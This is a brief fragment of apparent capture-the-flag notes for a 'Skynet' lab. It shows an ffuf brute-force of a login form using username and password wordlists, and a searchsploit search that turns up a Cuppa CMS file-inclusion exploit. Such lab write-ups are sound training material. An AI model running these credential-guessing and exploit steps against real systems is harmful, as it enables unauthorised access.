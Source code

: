 ![](../../attachment/b280ceb4634d20d2d9e82f1391ea1e51.png)

- Tried login with 2 credentials gathered previously

- Tried fuzzing weak usernames and passwords
	- `ffuf -c -w /usr/share/seclists/Usernames/top-usernames-shortlist.txt -w /usr/share/seclists/Passwords/darkweb2017-top100.txt:FUZZ2 -request login.req -request-proto http -fs 4945 -v`

Try exploits

```bash
┌──(kali㉿kali)-[~/thm/skynet]
└─$ searchsploit cuppa cms
------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                                                                                                                                 |  Path
------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
Cuppa CMS - '/alertConfigField.php' Local/Remote File Inclusion                                                                                                                | php/webapps/25971.txt
------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
Shellcodes: No Results
Papers: No Results
```

```bash
searchsploit -x 25971
```
